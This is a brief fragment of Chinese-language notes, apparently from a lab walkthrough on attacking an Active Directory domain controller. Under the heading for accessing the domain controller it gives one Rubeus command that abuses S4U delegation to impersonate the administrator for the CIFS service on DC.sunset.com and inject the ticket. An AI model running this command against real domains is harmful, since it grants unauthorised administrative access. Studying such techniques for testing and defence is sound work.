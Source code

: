 访问域控

![image.png](image%2055.png)

一键导入

```bash
Rubeus.exe s4u /user:wakaka /ticket:ticket.kirbi /impersonateuser:administrator /msdsspn:"cifs/DC.sunset.com" /ptt
```